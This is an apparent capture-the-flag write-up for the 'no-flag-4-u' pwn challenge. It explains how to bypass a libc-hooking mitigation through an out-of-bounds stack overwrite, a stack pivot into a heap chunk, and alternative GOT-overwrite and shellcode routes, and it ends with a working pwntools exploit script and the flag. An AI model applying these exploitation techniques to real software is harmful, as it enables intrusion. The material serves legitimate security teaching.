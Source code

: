 # no-flag-4-u

## Challenge

The binary provided is intentionally very vulnerable.
There are array out-of-bounds accesses, buffer overflows, use-after-frees, and format string vulnerabilities.

No-Flag-4-U is a project that aims to mitigate common vulnerabilities by wrapping certain dangerous functions.
The `libno_flag_4_u.so` library is provided, which mitigates many of the above vulnerabilities by hooking the calls to libc functions.
The binary was combiled from commit
[2b93970](https://github.com/Green-Avocado/No-Flag-4-U/tree/2b93970ca3a0e53cccb89450236be248f0166c48)
using the debug profile and no optional flags.

While there was a simple intended solution, the challenge was intentionally designed to allow for more creative solutions.
I was very pleased to read about the solutions that other competitors found.

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

### Main Disassembly

```c
ulong main(void) {
    ulong var_90h;
    ulong var_8h;
    
    sym.imp.alarm(0x3c);
    sym.imp.setbuf(_reloc.stdout, 0);
    sym.imp.setbuf(_reloc.stdin, 0);
    do {
        sym.imp.puts("1 : Create page");
        sym.imp.puts("2 : Edit page");
        sym.imp.puts("3 : Print page");
        sym.imp.puts("4 : Delete page");
        sym.imp.puts("5 : Exit");
        var_8h = sym.get_input();
    // switch table (6 cases) at 0x402078
        switch(var_8h) {
        case 1:
            sym.create_page(&var_90h);
            break;
        case 2:
            sym.edit_page(&var_90h);
            break;
        case 3:
            sym.print_page(&var_90h);
            break;
        case 4:
            sym.delete_page(&var_90h);
            break;
        case 5:
            return 0;
        }
    } while( true );
}
```

## Solution

Though we have a stack buffer overflow and no libc canary, we cannot simply overwrite the return address because No-Flag-4-U uses stored base pointers as canaries for some functions, including `gets`.

We cannot abuse the use-after-free because memory is never actually freed with these wrappers.

However, the array-out-of-bounds access means we can overwrite any stack value with a heap address, with contents that we control.
We can use this to overwrite a saved base pointer to a heap chunk.
After a couple returns, we can use this to stack pivot into the heap chunk, causing it to return to an address of our choosing.
Note that we are also somewhat limited to what addresses we can write, as all characters must be valid UTF-8.

The intended solution simply writes a `win` function address onto this heap chunk, which will cause the program to print the flag.

### Alternative Solutions

Many teams found that, instead of replacing the saved RBP to stack pivot, you could write to an address of your choosing, as long as it contained only UTF-8 characters.
This was done by editting at an index where a pointer to the stack existed, such as a saved RBP.
By editting at this index, one could write an almost arbitrary address onto the stack, which could then be editted to write any UTF-8 string to that address.
This was often used to replace a GOT entry with the `win` function address.

I was very happy to see that someone was able to abuse the RWX stack to cause the program to execute shellcode.
This was done by replacing a GOT entry, in the same manner as above, with a `call rax` gadget or similar.
One could then put UTF-8 shellcode onto the stack and execute it using this gadget.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 chal
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('chal')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    No RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      No PIE (0x400000)
# RWX:      Has RWX segments

io = start()

io.sendlineafter(b"5 : Exit\n", b'1')
io.sendlineafter(b"index: ", b'-2')
io.sendlineafter(b"size: ", b'8')
io.sendlineafter(b"content: ", flat({8:exe.sym['win']}))
io.sendlineafter(b"5 : Exit\n", b'5')

io.interactive()
```

## Flag

```
maple{OwO_flag_for_you?}
```
